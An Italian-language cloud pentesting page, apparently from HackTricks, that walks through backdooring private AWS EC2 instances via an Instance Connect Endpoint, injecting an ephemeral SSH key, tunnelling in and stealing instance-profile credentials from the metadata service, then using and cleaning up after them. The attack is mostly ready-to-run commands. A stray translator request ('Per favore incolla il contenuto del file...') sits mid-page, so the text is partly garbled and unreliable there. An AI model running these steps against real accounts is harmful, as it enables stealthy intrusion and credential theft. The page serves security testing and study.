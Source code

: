 # AWS - EC2 Instance Connect Endpoint backdoor + ephemeral SSH key injection

{{#include ../../../../banners/hacktricks-training.md}}

Sfruttare EC2 Instance Connect Endpoint (EIC Endpoint) per ottenere accesso SSH in ingresso a istanze EC2 private (no public IP/bastion) mediante:
- Creazione di un EIC Endpoint all'interno della subnet target
- Consentire SSH in ingresso sul target SG dallo SG dell'EIC Endpoint
- Iniettare una chiave pubblica SSH a breve durata (valida ~60 seconds) con `ec2-instance-connect:SendSSHPublicKey`
- Aprire un tunnel EIC e pivotare verso l'istanza per rubare le credenziali dell'instance profile da IMDS

Impatto: percorso di accesso remoto furtivo verso istanze EC2 private che bypassa bastion e restrizioni sui public IP. L'attaccante può assumere l'instance profile e operare nell'account.

## Requisiti
- Permessi per:
- `ec2:CreateInstanceConnectEndpoint`, `ec2:Describe*`, `ec2:AuthorizeSecurityGroupIngress`
- `ec2-instance-connect:SendSSHPublicKey`, `ec2-instance-connect:OpenTunnel`
- Istanza Linux target con server SSH e EC2 Instance Connect abilitato (Amazon Linux 2 o Ubuntu 20.04+). Utenti di default: `ec2-user` (AL2) o `ubuntu` (Ubuntu).

## Variabili
```bash
export REGION=us-east-1
export INSTANCE_ID=<i-xxxxxxxxxxxx>
export SUBNET_ID=<subnet-xxxxxxxx>
export VPC_ID=<vpc-xxxxxxxx>
export TARGET_SG_ID=<sg-of-target-instance>
export ENDPOINT_SG_ID=<sg-for-eic-endpoint>
# OS user for SSH (ec2-user for AL2, ubuntu for Ubuntu)
export OS_USER=ec2-user
```
## Crea EIC Endpoint
```bash
aws ec2 create-instance-connect-endpoint \
--subnet-id "$SUBNET_ID" \
--security-group-ids "$ENDPOINT_SG_ID" \
--tag-specifications 'ResourceType=instance-connect-endpoint,Tags=[{Key=Name,Value=Backdoor-EIC}]' \
--region "$REGION" \
--query 'InstanceConnectEndpoint.InstanceConnectEndpointId' --output text | tee EIC_ID

# Wait until ready
while true; do
aws ec2 describe-instance-connect-endpoints \
--instance-connect-endpoint-ids "$(cat EIC_ID)" --region "$REGION" \
--query 'InstanceConnectEndpoints[0].State' --output text | tee EIC_STATE
grep -q 'create-complete' EIC_STATE && break
sleep 5
done
```
## Consentire il traffico dall'EIC Endpoint all'istanza target
```bash
aws ec2 authorize-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true
```
## Iniettare una chiave SSH effimera e aprire un tunnel
```bash
# Generate throwaway key
ssh-keygen -t ed25519 -f /tmp/eic -N ''

# Send short-lived SSH pubkey (valid ~60s)
aws ec2-instance-connect send-ssh-public-key \
--instance-id "$INSTANCE_ID" \
--instance-os-user "$OS_USER" \
--ssh-public-key file:///tmp/eic.pub \
--region "$REGION"

# Open a local tunnel to instance:22 via the EIC Endpoint
aws ec2-instance-connect open-tunnel \
--instance-id "$INSTANCE_ID" \
--instance-connect-endpoint-id "$(cat EIC_ID)" \
--local-port 2222 --remote-port 22 --region "$REGION" &
TUN_PID=$!; sleep 2

# SSH via the tunnel (within the 60s window)
ssh -i /tmp/eic -p 2222 "$OS_USER"@127.0.0.1 -o StrictHostKeyChecking=no
```
## Post-exploitation proof (rubare le credenziali dell'instance profile)
```bash
# From the shell inside the instance
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/ | tee ROLE
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$(cat ROLE)
```
Per favore incolla il contenuto del file src/pentesting-cloud/aws-security/aws-post-exploitation/aws-ec2-ebs-ssm-and-vpc-post-exploitation/aws-ec2-instance-connect-endpoint-backdoor.md che desideri tradurre.
```json
{
"Code": "Success",
"AccessKeyId": "ASIA...",
"SecretAccessKey": "w0G...",
"Token": "IQoJ...",
"Expiration": "2025-10-08T04:09:52Z"
}
```
Usa le creds rubate localmente per verificare l'identità:
```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>
aws sts get-caller-identity --region "$REGION"
# => arn:aws:sts::<ACCOUNT_ID>:assumed-role/<InstanceRoleName>/<InstanceId>
```
## Pulizia
```bash
# Revoke SG ingress on the target
aws ec2 revoke-security-group-ingress \
--group-id "$TARGET_SG_ID" --protocol tcp --port 22 \
--source-group "$ENDPOINT_SG_ID" --region "$REGION" || true

# Delete EIC Endpoint
aws ec2 delete-instance-connect-endpoint \
--instance-connect-endpoint-id "$(cat EIC_ID)" --region "$REGION"
```
> Note
> - La chiave SSH iniettata è valida solo per ~60 secondi; invia la chiave subito prima di aprire il tunnel/SSH.
> - `OS_USER` deve corrispondere all'AMI (ad esempio, `ubuntu` per Ubuntu, `ec2-user` per Amazon Linux 2).
{{#include ../../../../banners/hacktricks-training.md}}
